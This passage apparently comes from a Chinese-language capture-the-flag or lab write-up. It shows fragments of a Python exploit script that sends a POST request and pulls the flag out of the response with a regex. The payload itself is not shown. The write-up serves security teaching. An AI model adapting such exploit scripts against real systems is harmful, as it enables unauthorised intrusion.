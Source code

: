 ```python
    }
    r = requests.post(url, data, headers=headers)
    return r.text
```

（4）获取 flag

```python
def GetFlag():
    flag_text = re.findall(r'flag{(.+?)}', SentExp())
    return "flag{"+flag_text[0]+"}"
```

主函数

```python
import re
import requests
from bs4 import BeautifulSoup

if __name__ == '__main__':
    print(GetFlag())
```

![bug3_break_exp_121](img/bug3_break_exp_121.png)
